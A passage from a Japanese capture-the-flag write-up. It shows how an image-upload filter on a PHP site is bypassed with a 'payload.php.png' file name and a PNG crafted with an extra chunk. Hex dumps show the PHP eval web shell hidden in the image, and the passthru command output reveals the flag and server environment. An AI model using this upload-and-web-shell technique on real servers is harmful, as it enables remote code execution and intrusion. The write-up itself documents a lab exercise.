 Web ブラウザを使って自分でこの手順を再現しようとしてみたところ、画像を削除しようとしたり、`.php` という拡張子のファイルをアップロードしようとすると `Nope` と表示され処理が中止されてしまうことがわかりました。この CTF に作られたものかどこかで配布されているものかは知りませんが、どうやらパッチが当てられているようです。

色々試していると、`a.php.png` のように拡張子の前に `.php` を挟んだファイル名でファイルをアップロードすると、アップロード後のファイル名でも `.php.png` は保持され、またアクセスすると `Content-Type: text/html; charset=UTF-8` のようなヘッダを返すことがわかりました。`a.png` のような普通のファイル名であれば `Content-Type: image/png` を返すので、おそらく PHP コードとして解釈され実行されているのでしょう。

あとは `tEXt` チャンクや `PLTE` チャンクに `<?php eval($_GET['0']); ?>` のようなコードを仕込んで終わりかと思いきや、うまく動きません。アップロード後のファイルをダウンロードしてバイナリエディタで見てみると `tEXt` チャンク等が削除されており、また `IDAT` チャンクの内容も大きく変わっているため、サーバ側でなんらかの変換が行われていることが推測できます。

色々試していると、以下のように `IHDR` チャンクの前に適当なチャンクを挿入した PNG ファイルをアップロードした場合、この変換は全く行われないことに気づきました。

```
0000000: 8950 4e47 0d0a 1a0a 0000 0004 7449 4d45  .PNG........tIME
0000010: 4142 4344 0000 0000 0000 000d 4948 4452  ABCD........IHDR
0000020: 4142 4344 4546 4748 4a4b 4c4d 4e4f 5051  ABCDEFGHJKLMNOPQ
0000030: 5200 0000 4e49 4441 5458 c3ed d931 0a00  R...NIDATX...1..
0000040: 3008 0340 edff ff6c 8742 f101 1d2c 5c36  0..@...l.B...,\6
0000050: b723 8ec9 aa8a 7959 3132 5858 5858 5858  .#....yY12XXXXXX
0000060: 5858 5858 5858 5858 5858 5858 5858 5858  XXXXXXXXXXXXXXXX
0000070: 588f 7396 8abb 57f4 33ad 18da f244 6d7d  X.s...W.3....Dm}
0000080: d6d6 066f e73f 21e1 dda9 9700 0000 0049  ...o.?!........I
0000090: 454e 44ae 4260 82                        END.B`.
```

なんと `IHDR` というチャンク名を `ABCD` に変えてしまってもサーバはそれを受け入れてしまいます。これを利用して `<?=eval($_GET[0]);?>` というコードを埋め込み、以下のような内容で `payload.php.png` というファイル名でアップロードします。

```
0000000: 8950 4e47 0d0a 1a0a 0000 0004 7449 4d45  .PNG........tIME
0000010: 4142 4344 0000 0000 0000 000d 3c3f 3d65  ABCD........<?=e
0000020: 7661 6c28 245f 4745 545b 305d 293b 3f3e  val($_GET[0]);?>
0000030: 5200 0000 4e49 4441 5458 c3ed d931 0a00  R...NIDATX...1..
0000040: 3008 0340 edff ff6c 8742 f101 1d2c 5c36  0..@...l.B...,\6
0000050: b723 8ec9 aa8a 7959 3132 5858 5858 5858  .#....yY12XXXXXX
0000060: 5858 5858 5858 5858 5858 5858 5858 5858  XXXXXXXXXXXXXXXX
0000070: 588f 7396 8abb 57f4 33ad 18da f244 6d7d  X.s...W.3....Dm}
0000080: d6d6 066f e73f 21e1 dda9 9700 0000 0049  ...o.?!........I
0000090: 454e 44ae 4260 82                        END.B`.
```

`/uploads/users/(乱数)-payload.php.png?0=passthru(%27printenv%27);` にアクセスすると、以下のようにフラグが表示されました。

```
︙
KUBERNETES_SERVICE_PORT=443
KUBERNETES_PORT=tcp://10.245.0.1:443
HOSTNAME=wfpm-654cdbf47b-ddhg9
SHLVL=2
HOME=/root
KUBERNETES_PORT_443_TCP_ADDR=10.245.0.1
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
KUBERNETES_PORT_443_TCP_PORT=443
KUBERNETES_PORT_443_TCP_PROTO=tcp
KUBERNETES_SERVICE_PORT_HTTPS=443
KUBERNETES_PORT_443_TCP=tcp://10.245.0.1:443
KUBERNETES_SERVICE_HOST=10.245.0.1
PWD=/var/www/localhost/htdocs/uploads/users
FLAG=F#{3Xp01tdB_r353@rcH_5@v1nG_L1v35!!}
︙
```

